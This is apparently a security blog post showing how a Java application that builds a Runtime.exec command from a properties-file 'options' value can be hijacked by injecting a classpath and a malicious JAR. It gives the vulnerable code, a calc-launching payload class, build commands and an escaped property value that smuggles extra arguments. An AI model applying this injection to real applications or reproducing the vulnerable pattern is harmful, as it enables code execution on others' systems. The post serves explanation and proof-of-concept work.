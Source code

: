 ```yaml
---
layout: single
title: Classpath Injection in Runtime.exec via Java Properties
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
  - jar hijacking
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.

But consider the scenario where the Java application itself is the spawned process. The following example illustrates this situation.

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();

try (FileInputStream stream = new FileInputStream("app.properties")) {
    properties.load(stream);
}

String options = properties.getProperty("options", "");
String command = String.format("javaw  %s -cp ".;./dependencies/*\" com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

To exploit this code, it's necessary to craft your own JAR file and use it to insert the classpath as a parameter into the Java process.

Store the following example into a file named `Calc.java`, ensuring to include the package declaration at the start of the file.

```
package command.injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code using the -d . option, which instructs the compiler to generate the specified directory structure.

```
javac -d . Calc.java
```

When creating a .jar file, you should use the `cvfeP` option set to guide the packaging process.

```
jar cvfeP calc.jar command.injection.Calc -C . command/injection/
```

This ensures the preservation of the package structure (P), sets the entry point for meaningful manifest information (e), names the file (f), creates an archive (c), and enables verbose output (v). The key options to focus on are P for maintaining the package structure and e for specifying the entry point. Then, append the command with the jar's name (test.jar) and its entry point. Conclude by using -C . <packagename>/ to collect class files from the designated folder while maintaining the folder's structure.

Open the `calc.jar` file in a zip program to ensure that it has the following directory structure:

```
command/
├─ injection/
│  ├─ Calc.class
META-INF/
├─ MANIFEST.MF
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: command.injection.Calc
```

When manually editing your manifest file, it's important to retain the newline at the end; otherwise, Java will not recognize the manifest correctly.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the configuration file (`application.properties`) of the application:

```
options=-cp\u0020\u0022C:/PATH/TO/JAR/*\u0022\u0020command.injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that instead of the expected program, the calculator app will launch.

Below is the value that was fed into the exec function.

```
javaw -cp "C:/PATH/TO/JAR/*" command.injection.Calc &:: -cp ".;./dependencies/*\" com.example.main.Example
```

## References

- [Command injection in Java](https://wiki.owasp.org/index.php/Command_injection_in_Java)
